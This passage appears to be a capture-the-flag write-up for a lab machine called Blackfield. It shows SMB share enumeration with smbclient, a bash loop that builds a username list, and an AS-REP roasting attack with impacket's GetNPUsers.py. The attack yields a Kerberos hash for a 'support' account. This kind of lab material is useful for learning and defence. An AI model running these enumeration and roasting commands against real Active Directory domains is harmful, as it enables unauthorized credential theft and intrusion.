 
The share I'd be mostly interested in are : foresnsic and profile$

Access is denied for directory listing with anonymous access on the foresic share. ( Most likely need this after creds)

We have access to the profiles share but it appears have empty directories.


eyeballing the list of directories, a few of the names standout  audit2020, svc_backup.

Checking this directories. They appear empty.

While these directories are emtpty, they appear to be user name profiles and making a list of these usersnames is a good finding nonetheless.

```
root@kali:~/pwn_share/Machines/Blackfield/profiles# smbclient  \\\\10.10.10.192\\profiles$
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> recurse ON
smb: \> prompt OFF
smb: \>
smb: \> mget *
smb: \> 
```

After downloading all the files, the usernames are put into a list with a simpe bash onliner:

> root@kali:~/pwn_share/Machines/Blackfield/profiles# for i in $(ls);do echo $i; done > users.txt

**88:**

With the list of usernames, trying impacket scripts.

Specifically the GetUserSpns.py incase there are users set to not require pre authentication set

```
root@kali:/opt/impacket/examples# python3 GetNPUsers.py blackfield.local/: -request -usersfile /root/pwn_share/Machines/Blackfield/profiles/users.txt > npusers.txt

mv npusers.txt ~/pwn_share/Machines/Blackfield/


root@kali:~/pwn_share/Machines/Blackfield# cat npusers.txt 
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

$krb5asrep$23$support@BLACKFIELD.LOCAL:d9141b86bf7af57b77fea4f6dd5706e6$97624bbca77ad3024be9f732883c765e98cdfb1749494a7d854ec7d671b76b037395fff3ce88b9785ee72a7c599663795e61f1f29ec1b871d30f2f7d6f86295528bed0119c76a20f31cadab169d0fe4b67c931d6ecd2c77a1b5a4e827aecf74602581aa4ba2a856c367eab5848e888311a368a1e081348d50b1e970a09135159021f29b27b37940cdbbde885dc6d93ae7c961d1d4da1597ecc24f185e54abca6692365ec9388939c44e89c58979d4fc00e73b330e2cb5a37e8ed33fa8347ee7191563b6cf9d6938cbffb5d3791409d0fa94c12a03c8f64551d95093066fce750440472d9fc4fe71ededb21c9e4845015fab1b3e9
```

https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat

